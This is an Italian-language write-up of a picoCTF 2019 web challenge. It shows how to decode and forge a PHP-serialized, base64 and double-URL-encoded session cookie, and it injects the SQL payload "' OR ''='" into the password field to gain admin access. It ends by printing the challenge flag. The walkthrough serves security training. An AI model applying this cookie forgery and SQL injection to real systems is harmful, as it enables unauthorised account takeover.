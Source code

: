 ```yaml
---
tags:
  - WebExploitation
  - PicoCTF2019
---
```



## Problema

Login as admin: `https://2019shell1.picoctf.com/problem/45142/`

## Soluzione

### 1. Ottengo login con brute force
La pagina si presenta come una normale pagina di login.
Per prima cosa è necessario effettuare un attacco brute force per ottenere delle credenziali di accesso di un utente base, in particolare otteniamo

* **Username:**: `guest`
* **Password:**: `guest`

### 2. Prendo il cookie generato

Noto che mi viene fornito il seguente cookie:

`{'user_info':'TzoxMToicGVybWlzc2lvbnMiOjI6e3M6ODoidXNlcm5hbWUiO3M6NToiZ3Vlc3QiO3M6ODoicGFzc3dvcmQiO3M6NToiZ3Vlc3QiO30%253D'}`

La decodifica base64 di tale stringa fornisce:
`O:11:"permissions":2:{s:8:"username";s:5:"guest";s:8:"password";s:5:"guest";}6p`
Questo è l'output della funzione `serialize` di PHP ma con un `6p` di troppo.

### 3. Analizzo il valore del cookie

Il valore del cookie assomiglia molto ad un base64 encoding ma strambo, infatti la codifica base64 non ammette il carattere percentuale, inoltre può (ma non è obbligatorio) terminare con il carattere `=` (padding affinché la stringa sia sempre lunga unn numero divisibile per 3 caratteri).
Il valore `%25` mi suggerisce un url encoding, infatti `%25` significa il carattere `%`.
Ora ottengo `%3D` che a sua volta è l'url encoding di `=`. Bingo!
Tale cookie è infatti generato con la formula `url_encode(url_encode(STRINGA))`.

### 4. Creo il loro codice PHP per generare tale stringa

A sua volta la stringa è il risultato della funzione `serialize` di un oggetto chiamato `permissions`.
Scrivo quindi il seguente codice che simulare esattamente quanto eseguito dal server:

```php
class permissions
{
    
}

$object = new permissions();
$object->username = "guest";
$object->password = "guest";
echo(serialize($object));


echo(urlencode(urlencode(base64_encode (serialize($object)))));
```

lanciandolo ottengo infatti esattamente il valore del cookie ottenuto sopra.

### 5. Sql Injection su admin.php

Andando sulla pagina `admin.php` con il cookie ottengo il messaggio "You are not admin".
Immagino quindi che il server prenda il valore del cookie, lo deserializzi, ottenga username e password e verifichi che esista un admin con tali credenziali.
Dato che il testo del problema diceva _Login as admin_ posso intuire che l'username sia sicuramente admin, mentre non ho la password.
Devo quindi operare un attacco di sql injection sulla password in modo da ingannarlo e farmi credere di essere admin.
Modifico il codice PHP creato sopra con il seguente:

```php
class permissions
{
    
}

$object = new permissions();
$object->username = "admin";
$object->password = "' OR ''='";
echo(serialize($object));


echo(urlencode(urlencode(base64_encode (serialize($object)))));
```

e ottengo quindi il seguente valore:

`TzoxMToicGVybWlzc2lvbnMiOjI6e3M6ODoidXNlcm5hbWUiO3M6NToiYWRtaW4iO3M6ODoicGFzc3dvcmQiO3M6OToiJyBPUiAnJz0nIjt9`

### 6. Finalmente login

Vado sulla pagina [admin.php](https://2019shell1.picoctf.com/problem/45142/admin.php), inserisco il cookie ['user_info':'TzoxMToicGVybWlzc2lvbnMiOjI6e3M6ODoidXNlcm5hbWUiO3M6NToiYWRtaW4iO3M6ODoicGFzc3dvcmQiO3M6OToiJyBPUiAnJz0nIjt9'], F5 e ottengo la flag!

**picoCTF{41f9ada4385bd93a3b15eead30841230}**

![image](uploads/f1e0973990bd3a13df07dff9baec6136/image.png)





